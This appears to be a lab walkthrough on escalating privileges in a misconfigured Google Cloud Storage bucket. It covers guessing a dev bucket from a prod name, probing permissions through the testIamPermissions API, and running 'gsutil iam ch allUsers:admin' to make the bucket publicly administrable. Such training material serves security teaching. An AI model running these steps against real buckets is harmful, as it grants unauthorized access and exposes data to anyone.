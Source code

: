# Objective

We will try to use the misconfigured bucket policies to get admin access on one of the buckets.

# Solution

**Step 1:** Open the web application put in the login credentials and start interacting with the web app.

![](https://user-images.githubusercontent.com/54552051/204803754-091bc173-00b8-4151-b126-4e5f92af98a4.png)

![](https://user-images.githubusercontent.com/54552051/204803761-4c1deef3-bb2b-4f44-94be-b41b0dd45a6b.png)

**Step 2:** Open any of the blogs from the home page.

![](https://user-images.githubusercontent.com/54552051/204803763-0a423523-f7a9-429c-bc74-2bed9d44515b.png)

Open the image of the blog in the new tab by right-clicking on it and following the same.

![](https://user-images.githubusercontent.com/54552051/204803768-7492553d-80f5-42d7-bea9-df0f5af2fe1c.png)

**Step 3:** Here you find that the image is being fetched from a google storage bucket.

![](https://user-images.githubusercontent.com/54552051/204803771-ddad9684-d6ee-46c0-90b2-ddf262ceb5ce.png)

You can find the name of the bucket as highlighted in the above image, after the *storage.googleapis.com*. Take note of this name.

**Step 4:** Fetch the bucket contents by using the below URL

```
https://storage.googleapis.com/<BUCKET NAME>
```

**Note:** Replace the <BUCKET NAME> with your current bucket name.

![](https://user-images.githubusercontent.com/54552051/204803773-730a08ef-ee34-4af3-92c5-eef0aa06687e.png)

The access will be denied onto the bucket to list out all the content.

**Step 5:** Use the below URL to find out all the permissions you have on this bucket.

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

**Note:** replace BUCKET_NAME with your current bucket name.

The Google Storage TestIamPermissionsAPI allows us to supply a bucket name and list of Google Storage permissions, and it will respond with the permissions we have on that bucket. This completely bypasses the requirement of viewing the bucket policy and could potentially even give us better information (in the case of a custom role being used).

![](https://user-images.githubusercontent.com/54552051/204803776-434646aa-816b-4fc8-98d9-1792f6072711.png)

This bucket only has read access which is "storage.buckets.get". But the bucket name is starting from **prod** so there can be a dev bucket also.

**Step 6:** Try to access all the contents of the dev bucket by simply replacing the **prod** with **dev**.

```
https://storage.googleapis.com/<DEV BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803779-497a59d7-80b1-4632-9582-f1407f951684.png)

Here also we got the access denied same as the prod bucket. But this confirms that there is a dev bucket.

**Step 7:** List out all the permissions we have on the dev bucket.

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

Note: replace BUCKET_NAME with your dev bucket name.

![](https://user-images.githubusercontent.com/54552051/204803781-38285e67-bf79-4691-ab06-51eedd36bb54.png)

Here we have two more interesting permission along with the get permissions.

* storage.buckets.setIamPolicy - This grants permission to set IAM policies in the bucket.
* storage.buckets.getIamPolicy - This grants permission to read IAM policies in the bucket.

**Step 8:** list IAM roles attached to this bucket with the gsutil tool.

gsutil is a Python application that lets you access Cloud Storage from the command line. You can use gsutil to do a wide range of bucket and object management tasks.

Use the following command to list all IAM permissions and roles attached to this bucket.

```
gsutil iam get gs://<BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803786-df0d5b6f-c7b1-4d1e-a884-a71184dfa967.png)

Here allUsers which is for anonymous user has a custom role attached to them. Which had those 3 permissions we saw in the previous step.

**Step 9:** Add an admin role for allUsers using the following command such that we can do all the operations in the bucket.

```
gsutil iam ch allUsers:admin gs://<BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803788-f6109fa8-c8d9-443e-8dd4-d8e548c04096.png)

**Step 10:** Again list the IAM roles attached to the bucket to confirm that admin roles are added to it using the gsutil tool.

```
gsutil iam get gs://<BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803791-e2d36f01-9e11-4c62-8748-78b3fb0d9b16.png)

Successfully added an admin role for all users.

**Step 11:** List out all the permissions onto this bucket with the below URL.

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

Note: replace BUCKET_NAME with your dev bucket name.

![](https://user-images.githubusercontent.com/54552051/204803798-c39a7bab-0380-49d2-86cb-acd600203172.png)

You can see now we have all kinds of access to this bucket.

**Step 12:** List out all the content inside the bucket to verify the same.

```
https://storage.googleapis.com/<DEV BUCKET NAME>
```

![](https://user-images.githubusercontent.com/54552051/204803801-bfa0ab6c-402b-4321-8342-71bd893941b0.png)

The content of the bucket is listing out. This means you have successfully elevated your privileges onto this bucket.